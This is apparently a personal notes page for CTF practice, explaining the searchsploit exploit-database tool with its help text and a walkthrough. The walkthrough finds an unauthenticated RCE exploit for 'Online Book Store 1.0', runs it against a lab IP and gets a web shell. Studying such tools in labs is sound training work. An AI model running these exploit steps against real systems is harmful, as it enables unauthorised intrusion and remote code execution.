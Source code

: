 # Searchsploit

The searchsploit tool is a useful commandline database that allows me to look up a vulnerabilities in the [Exploit Database](https://www.exploit-db.com/searchsploit) based on the name and version of software. This information provides a list of known vulnerabilites and scripts that can be used to run against target machines. Once I install searchsploit on my machine I can look up vulnerabilites without using an internet connection.

## Python 2 Scripts

Searchsploit is a fantastic tool that indexes CVEs and the scripts that were made for those CVEs. Many of the scripts found in this project were made before January 2020 when Python 2 reached end of life. These scripts can be ran using the TryHackMe attack box since it has Python 2 running on it (the python binary). If there is a dependency package in these scripts for a third party package, I will look up the releases for the package on PyPI and get the last one before January 2020.

Usually this allows me to run the script. The two main ways I determine if a script is Python 2 is the print statements and the input command. Python 2 didn't require parentheses when calling print, Python 3 does. The input command handles input differently between Python 2 and Python 3. I try to use my best judgement either way to determine if something can be ran as a Python 2 script or if it can be updated to Python 3.

## Usage

```bash
$ searchsploit -h
  Usage: searchsploit [options] term1 [term2] ... [termN]

==========
 Examples 
==========
  searchsploit afd windows local
  searchsploit -t oracle windows
  searchsploit -p 39446
  searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"
  searchsploit -s Apache Struts 2.0.0
  searchsploit linux reverse password
  searchsploit -j 55555 | jq
  searchsploit --cve 2021-44228

  For more examples, see the manual: https://www.exploit-db.com/searchsploit

=========
 Options 
=========
## Search Terms
   -c, --case     [term]      Perform a case-sensitive search (Default is inSEnsITiVe)
   -e, --exact    [term]      Perform an EXACT & order match on exploit title (Default is an AND match on each term) [Implies "-t"]
                                e.g. "WordPress 4.1" would not be detect "WordPress Core 4.1")
   -s, --strict               Perform a strict search, so input values must exist, disabling fuzzy search for version range
                                e.g. "1.1" would not be detected in "1.0 < 1.3")
   -t, --title    [term]      Search JUST the exploit title (Default is title AND the file's path)
       --exclude="term"       Remove values from results. By using "|" to separate, you can chain multiple values
                                e.g. --exclude="term1|term2|term3"
       --cve      [CVE]       Search for Common Vulnerabilities and Exposures (CVE) value

## Output
   -j, --json     [term]      Show result in JSON format
   -o, --overflow [term]      Exploit titles are allowed to overflow their columns
   -p, --path     [EDB-ID]    Show the full path to an exploit (and also copies the path to the clipboard if possible)
   -v, --verbose              Display more information in output
   -w, --www      [term]      Show URLs to Exploit-DB.com rather than the local path
       --id                   Display the EDB-ID value rather than local path
       --disable-colour       Disable colour highlighting in search results

## Non-Searching
   -m, --mirror   [EDB-ID]    Mirror (aka copies) an exploit to the current working directory
   -x, --examine  [EDB-ID]    Examine (aka opens) the exploit using $PAGER

## Non-Searching
   -h, --help                 Show this help screen
   -u, --update               Check for and install any exploitdb package updates (brew, deb & git)

## Automation
       --nmap     [file.xml]  Checks all results in Nmap's XML output with service version
                                e.g.: nmap [host] -sV -oX file.xml

=======
 Notes 
=======
 * You can use any number of search terms
 * By default, search terms are not case-sensitive, ordering is irrelevant, and will search between version ranges
   * Use '-c' if you wish to reduce results by case-sensitive searching
   * And/Or '-e' if you wish to filter results by using an exact match
   * And/Or '-s' if you wish to look for an exact version match
 * Use '-t' to exclude the file's path to filter the search results
   * Remove false positives (especially when searching using numbers - i.e. versions)
 * When using '--nmap', adding '-v' (verbose), it will search for even more combinations
 * When updating or displaying help, search terms will be ignored
```

## Examples

The following examples are ones that I have used in capture the flag exercises.

### Searching

I found a web application that was running the "Online Book Store v1.0" software. Using searchsploit I was able to find all kinds of vulnerabilities. Here is the command I ran to find what exploits were available:

```bash
$ searchsploit Online Book Store
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
GotoCode Online Bookstore - Multiple Vulnerabilities                                            | asp/webapps/17921.txt
Online Book Store 1.0 - 'bookisbn' SQL Injection                                                | php/webapps/47922.txt
Online Book Store 1.0 - 'id' SQL Injection                                                      | php/webapps/48775.txt
Online Book Store 1.0 - Arbitrary File Upload                                                   | php/webapps/47928.txt
Online Book Store 1.0 - Unauthenticated Remote Code Execution                                   | php/webapps/47887.py
Online Event Booking and Reservation System 1.0 - 'reason' Stored Cross-Site Scripting (XSS)    | php/webapps/50450.txt
------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

The `Online Book Store 1.0 - Unauthenticated Remote Code Execution` line caught my eye. Looking in the Path column of the table, I see that `php/webapps/47887.py` is the file to run this exploit. I was to see more information about this exploit. I'll run the following command to get more information:

```bash
$ searchsploit 47887 -p
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Online Book Store 1.0 - Unauthenticated Remote Code Execution                   | php/webapps/47887.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
root@ip-10-10-92-190:~/Instructions# searchsploit 47887 -p
  Exploit: Online Book Store 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47887
     Path: /opt/exploitdb/exploits/php/webapps/47887.py
    Codes: N/A
 Verified: True
File Type: ASCII text
```

The Path in the above output tells me where on my machine searchsploit is storing the exploit file. I can run the script in that directory or copy it over to my current directory. I usually copy it to my directory in case I need to make modifications or if I am including the script in a write up. I copy the script by running:

```bash
$ searchsploit 47887 -m
```

The above command is the same as running the following:

```bash
$ cp /opt/exploitdb/exploits/php/webapps/47887.py .
```

I try to run any python script with python3 because python 2 has been end of life since January 1st, 2020. This script would not work with python 2 since it uses the built in input command and that is handled slightly differently between python2 and python3.

Now I run the command with the following:

```bash
$ python3 47887.py
```

This generated an error saying that the script needs a url to be provided. So I included the root url to the application:

```bash
$ python3 47887.py http://10.10.1.1
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.1.1/bootstrap/img/oUde8ShIJA.php
> Example command usage: http://10.10.1.1/bootstrap/img/oUde8ShIJA.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $
```

I now have remote shell access on the target machine!
